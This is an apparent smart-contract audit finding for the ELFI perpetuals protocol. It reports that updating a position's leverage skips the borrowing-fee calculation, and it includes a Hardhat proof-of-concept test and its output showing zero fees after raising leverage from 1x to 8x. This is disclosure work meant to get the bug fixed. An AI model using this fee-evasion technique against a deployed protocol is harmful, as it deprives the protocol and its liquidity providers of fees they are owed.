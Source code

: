 Wonderful Tangerine Snake

Medium

# Users can avoid paying borrowing fees

## Summary
[**realizedBorrowingFeeDelta**](https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/8a1a01804a7de7f73a04d794bf6b8104528681ad/elfi-perp-contracts/contracts/process/FeeProcess.sol#L82) is used to determine the amount of [**realizedBorrowingFee** ](https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/8a1a01804a7de7f73a04d794bf6b8104528681ad/elfi-perp-contracts/contracts/process/FeeProcess.sol#L86)base on the current Position [**initialMargin** and **leverage**](https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/8a1a01804a7de7f73a04d794bf6b8104528681ad/elfi-perp-contracts/contracts/process/FeeProcess.sol#L83)


However, the borrowing fee is not updated when the position leverage is changed
https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/8a1a01804a7de7f73a04d794bf6b8104528681ad/elfi-perp-contracts/contracts/process/PositionMarginProcess.sol#L134

## Vulnerability Detail
Consider the following scenario:
To avoid paying the borrowing fee, the user place an order with 1x leverage, then uses the **executeUpdateLeverageRequest** function to change the leverage.

1.**user0** place order 1:
https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/8a1a01804a7de7f73a04d794bf6b8104528681ad/elfi-perp-contracts/contracts/process/IncreasePositionProcess.sol#L84
orderMargin=0.1ETH ,
leverage =10000,
[realizedBorrowingFee](https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/8a1a01804a7de7f73a04d794bf6b8104528681ad/elfi-perp-contracts/contracts/process/FeeProcess.sol#L83) =0
time.increase(199)

2.**user0** place order 2:
https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/8a1a01804a7de7f73a04d794bf6b8104528681ad/elfi-perp-contracts/contracts/process/IncreasePositionProcess.sol#L84
orderMargin=0.1ETH ,
leverage =10000,
[realizedBorrowingFee](https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/8a1a01804a7de7f73a04d794bf6b8104528681ad/elfi-perp-contracts/contracts/process/FeeProcess.sol#L83) =0

3.**user0** update leverage:
https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/8a1a01804a7de7f73a04d794bf6b8104528681ad/elfi-perp-contracts/contracts/facets/PositionFacet.sol#L108
leverage =800000
realizedBorrowingFee =0



POC:
```solidity
import { expect } from 'chai'
import { Fixture, deployFixture } from '@test/deployFixture'
import { ORDER_ID_KEY, OrderSide, OrderType, PositionSide, StopType } from '@utils/constants'
import { precision } from '@utils/precision'
import { deposit } from '@utils/deposit'
import {
  AccountFacet,
  FeeFacet,
  MarketFacet,
  MockToken,
  OrderFacet,
  ConfigFacet,
  PoolFacet,
  PositionFacet,
  TradeVault,
} from 'types'
import { HardhatEthersSigner } from '@nomicfoundation/hardhat-ethers/signers'
import { time } from "@nomicfoundation/hardhat-network-helpers";
import { ethers } from 'hardhat'
import { Contract } from 'ethers'
import { handleOrder } from '@utils/order'
import { handleMint } from '@utils/mint'
import { account } from '@utils/account'
import { pool } from '@utils/pool'
import { oracles } from '@utils/oracles'
import { handleUpdateLeverage, handleUpdateMargin } from '@utils/position'


describe(' Order Process', function () {
    let fixture: Fixture
    let tradeVault: TradeVault,
      marketFacet: MarketFacet,
      orderFacet: OrderFacet,
      poolFacet: PoolFacet,
      accountFacet: AccountFacet,
      positionFacet: PositionFacet,
      feeFacet: FeeFacet,
      configFacet: ConfigFacet
    let user0: HardhatEthersSigner, user1: HardhatEthersSigner, user2: HardhatEthersSigner, user3: HardhatEthersSigner
    let diamondAddr: string,
      tradeVaultAddr: string,
      wbtcAddr: string,
      wethAddr: string,
      solAddr: string,
      usdcAddr: string
    let btcUsd: string, ethUsd: string, solUsd: string, xBtc: string, xEth: string, xUsd: string
    let wbtc: MockToken, weth: MockToken, sol: MockToken, usdc: MockToken
  
    beforeEach(async () => {
      fixture = await deployFixture()
      ;({ tradeVault, marketFacet, poolFacet, orderFacet, configFacet, accountFacet, positionFacet, feeFacet } =
        fixture.contracts)
      ;({ user0, user1, user2, user3 } = fixture.accounts)
      ;({ btcUsd, ethUsd, solUsd } = fixture.symbols)
      ;({ xBtc, xEth, xUsd } = fixture.pools)
      ;({ wbtc, weth, sol, usdc } = fixture.tokens)
      ;({ diamondAddr, tradeVaultAddr } = fixture.addresses)
      wbtcAddr = await wbtc.getAddress()
      wethAddr = await weth.getAddress()
      solAddr = await sol.getAddress()
      usdcAddr = await usdc.getAddress()
  
      const btcTokenPrice = precision.price(25000)
      const btcOracle = [{ token: wbtcAddr, minPrice: btcTokenPrice, maxPrice: btcTokenPrice }]
      await handleMint(fixture, {
        stakeToken: xBtc,
        requestToken: wbtc,
        requestTokenAmount: precision.token(100),
        oracle: btcOracle,
      })
  
      const ethTokenPrice = precision.price(1600)
      const ethOracle = [{ token: wethAddr, minPrice: ethTokenPrice, maxPrice: ethTokenPrice }]
      await handleMint(fixture, {
        requestTokenAmount: precision.token(500),
        oracle: ethOracle,
      })
  
      const usdtTokenPrice = precision.price(1)
      const usdcTokenPrice = precision.price(101, 6)
      const daiTokenPrice = precision.price(99, 7)
      const usdOracle = [
        { token: usdcAddr, minPrice: usdcTokenPrice, maxPrice: usdcTokenPrice },
      ]
  
      await handleMint(fixture, {
        requestTokenAmount: precision.token(100000, 6),
        stakeToken: xUsd,
        requestToken: usdc,
        oracle: usdOracle,
      })
  
    })
  
    it('poc', async function () {
      const orderMargin1 = precision.token(1, 17) // 0.1ETH
      const ethPrice0 = precision.price(1800)
      const usdcPrice = precision.price(99, 6)
      const ethOracle0 = [{ token: wethAddr, minPrice: ethPrice0, maxPrice: ethPrice0 },
        { token: usdcAddr, targetToken: ethers.ZeroAddress, minPrice: usdcPrice, maxPrice: usdcPrice }]
  
      await handleOrder(fixture, {
        orderMargin: orderMargin1,
        oracle: ethOracle0,
        leverage: precision.rate(1),
      })
  
      const defaultMarginMode = false

     
      time.increase(199);
  
      const position1 = await positionFacet.getSinglePosition(user0.address, ethUsd, wethAddr, defaultMarginMode)
     console.log("realizedBorrowingFee, after handle Order 1: ",position1.positionFee.realizedBorrowingFee)
    //  console.log("realizedFundingFee1",position1.positionFee.realizedFundingFee)
     const orderMargin2 = precision.token(1, 17) // 0.1ETH
     const usdcAmount = precision.token(2000, 6)
      
     await handleOrder(fixture, {
      orderMargin: orderMargin2,
      oracle: ethOracle0,
      leverage: precision.rate(1),
    
    })
    const position2 = await positionFacet.getSinglePosition(user0.address, ethUsd, wethAddr, defaultMarginMode)
    console.log("realizedBorrowingFee ,after handle Order 2: ",position2.positionFee.realizedBorrowingFee)

    time.increase(199);
     // 
     const ethPrice1 = precision.price(1789)
     const ethOracle1 = [{ token: wethAddr, minPrice: ethPrice1, maxPrice: ethPrice1 }]
     const addMargin = precision.token(3, 16) //0.03ETH
     const executionFee = precision.token(2, 15)
    

      await handleUpdateLeverage(fixture, {
        symbol: ethUsd,
        isLong: true,
        isCrossMargin: defaultMarginMode,
        leverage: precision.rate(8), // 8 X leverage
        addMarginAmount: addMargin,
        marginToken: weth,
        oracle: ethOracle1,
        executionFee: executionFee,
      })
      const position3 = await positionFacet.getSinglePosition(user0.address, ethUsd, wethAddr, defaultMarginMode)
    console.log("realizedBorrowingFee ,after Update Leverage : ",position3.positionFee.realizedBorrowingFee)
    console.log("position leverage,after Update Leverage : ",position3.leverage)
    expect(position3.leverage).to.equals(precision.rate(8))
  
    })
    
  })

```
realizedBorrowingFee, after handle Order 1:  0n
realizedBorrowingFee ,after handle Order 2:  0n
realizedBorrowingFee ,after Update Leverage :  0n
position leverage,after Update Leverage :  800000n
## Impact
Users can avoid paying borrowing fees

## Code Snippet

## Tool used

Manual Review

## Recommendation
update Position Leverage should take into account borrowing fee
